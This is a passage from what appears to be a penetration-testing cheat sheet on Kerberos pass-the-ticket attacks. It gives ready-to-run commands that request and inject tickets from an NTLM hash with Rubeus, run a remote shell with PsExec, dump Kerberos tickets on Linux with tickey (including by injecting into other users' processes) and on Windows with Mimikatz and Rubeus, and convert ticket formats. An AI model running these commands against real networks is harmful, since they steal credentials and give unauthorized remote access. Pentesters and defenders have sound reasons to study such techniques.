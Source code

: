 With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Pass The Ticket (PTT)

#### Harvest tickets from Linux

Check type and location of tickets:

```
grep default_ccache_name /etc/krb5.conf
```

If none return, default is FILE:/tmp/krb5cc\_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being _KEYRING_ tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

#### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:

```
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

To convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket\_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```
